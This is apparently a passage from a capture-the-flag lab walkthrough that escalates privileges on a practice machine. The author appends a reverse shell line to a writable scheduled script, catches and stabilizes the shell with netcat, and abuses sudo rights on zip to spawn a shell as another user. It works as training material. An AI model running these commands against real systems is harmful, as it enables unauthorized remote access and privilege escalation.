 - /opt/scripts/47.sh is writable 

```console
viktor@linuxagency:~$ ls -l /opt/scripts/47.sh
-rwxr-xr-x 1 viktor viktor 106 Nov 21 04:06 /opt/scripts/47.sh
```
- Added reverse shell code to the file

```console
viktor@linuxagency:~$ echo "sh -i >& /dev/tcp/10.17.0.215/4444 0>&1" >> /opt/scripts/47.sh
```

- Got a shell and stabilized it 

```console
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.17.0.215] from (UNKNOWN) [10.10.219.213] 41634
sh: 0: can't access tty; job control turned off
$ python3 -c "import pty; pty.spawn('/bin/bash')"
dalia@linuxagency:~$ ^Z
[1]+  Stopped                 nc -lvnp 4444

┌──(divu050704㉿kali)-[~]
└─$ stty raw -echo && fg
nc -lvnp 4444

dalia@linuxagency:~$ 
dalia@linuxagency:~$ 
dalia@linuxagency:~$ 
dalia@linuxagency:~$ 
dalia@linuxagency:~$ ls
examples.desktop  flag.txt
dalia@linuxagency:~$ cat flag.txt 
dalia{4a94a7a7bb4a819a63a33979926c77dc}
dalia@linuxagency:~$ 
```


# Silvio's flag

- Found that Dalia can run zip without password as `Silvio`

```console
dalia@linuxagency:~$ TF=$(mktemp -u)
dalia@linuxagency:~$ sudo -u silvio zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 37%)
$ /bin/bash
silvio@linuxagency:/home/dalia$ whoami
silvio
```

- Found the flag

```console
siClvio@linuxagency:~$ cat flag.txt
silvio{657b4d058c03ab9988875bc937f9c2ef}
```
